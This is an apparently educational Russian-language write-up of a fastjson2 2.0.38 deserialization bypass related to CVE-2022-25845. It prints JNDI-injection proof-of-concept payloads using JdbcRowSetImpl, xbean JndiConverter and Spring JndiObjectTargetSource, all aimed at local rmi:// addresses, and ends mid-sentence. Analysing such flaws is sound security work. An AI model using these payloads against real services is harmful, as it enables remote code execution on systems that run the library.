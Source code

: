 # CVE-2022-25845 (jinjava2 exnted) (Маджуга Богдан Андреевич)

## Описание:

В статье https://paper.seebug.org/3017/ автор рассматривает библиотеку fastjson2** на наличие уязвимсотей ее предшественника fastjson. В качестве уязвимости автор выбрал уязвимость отнаследованную от CVE-2022-25845, которая работала на fastjson версии *1.2.25-1.2.41*. В качестве таргета автор рассматривает fastjson2 версии *2.0.38*.


Первоначально автор пробует запустить уязвимый код напрямую из старой версии:

```
public static void main(String[] args) {
    String poc = "{\"@type\":\"Lcom.sun.rowset.JdbcRowSetImpl;\",\"DataSourceName":\"rmi://127.0.0.1:8085/xxx\",\"AutoCommit\":\"false\"}";
    Object obj = JSON.parse(poc, JSONReader.Feature.UseNativeObject,
    JSONReader.Feature.SupportAutoType);
    System.out.println(obj);
}
```

Как и ожидалось уязвимость не сработала, по причине того, что теперь fastjson2 блокирует выполнение checkAutoType в случае если класс связан с DataSourceName. 

```
  if (ClassLoader.class.isAssignableFrom(clazz) || JDKUtils.isSQLDataSourceOrRowSet(clazz)) {
        throw new JSONException("autoType is not support. " + typeName);
  }
```

Автор предлагает легкий способ обхода данной уязвимости используя другой тип сериализуемого объекта:

```
public static void main(String[] args) {
    String poc = "{\"@type\":\"Lorg.apache.xbean.propertyeditor.JndiConverter;\",\"asText\":\"rmi://127.0.0.1:8089/test\"}";
    Object obj = JSON.parse(poc, JSONReader.Feature.UseNativeObject,
    JSONReader.Feature.SupportAutoType);
    System.out.println(obj);
}
```

При этом автор уточняет, что для данного взлома необходима отдельная зависимость, что делает ее менее критичной:

```
<dependency> 
  <groupId>org.apache.xbean</groupId> 
  <artifactId>xbean-reflect</artifactId> 
  <version>4.15</version>
</dependency>
```

Однако, автор нашел способ вызвать аналогичную уязвимость используя популярный фреймворк Spring, что вызывает необходимость к исправлению найденной уязвимости.

```
String poc3 = "{\n" +
                "    \"@type\":\"Lorg.springframework.jndi.JndiObjectTargetSource;\",\n" +
                "    \"jndiName\": \"rmi://127.0.0.1:12312/Exp\",\n" +
                "    \"jndiTemplate\": {\n" +
                "        \"@type\":\"org.springframework.jndi.JndiTemplate\",\n" +
                "        \"environment\": {\n" +
                "            \"java.naming.factory.initial\": \"com.sun.jndi.rmi.registry.RegistryContextFactory\"\n" +
                "        }\n" +
                "    }\n" +
                "}";

JndiObjectTargetSource o = (JndiObjectTargetSource) JSON.parse(poc3, JSONReader.Feature.SupportAutoType);
o.getTarget();
```

## Причины уязвимости:

Основная причина уязвимости заключается в том, что библиотека fastjson умеет сериализовать JSON строку сразу в объект с указанным типом *@type (JSONReader.Feature.UseNativeObject)*. При этом установка аттрибута происходит через setter методы, которые ищутся по принципу ```name.startsWith("set")``` не обращая внимание на наличие аттрибута с искомым названием. Таким образом появляется возможность вызывать методы принимающие строку на вход, смотри пример:

```
package org.example;

public class DemoObject {
    public String fieldA;
    public String fieldB;

    public void setFieldA(String fieldA) {
        this.fieldA = fieldA;
    }

    public void setFieldC(String fieldC) {
        System.out.println("Setting field C: " + fieldC);
    }
}
```

Тогда следующие код:

```
    public static void main(String[] args) {
        String poc = "{\"@type\":\"org.example.DemoObject\",\"fieldA\":\"hello A\", \"fieldB\":\"hello B\", \"fieldC\":\"hello C\"}";
        DemoObject obj = (DemoObject) JSON.parse(poc,
                JSONReader.Feature.SupportAutoType);
        System.out.println(obj.fieldA);
    }
```

Приводит к следующему выводу в консоль:

```
Setting field C: hello C
hello A
```

Как мы видем


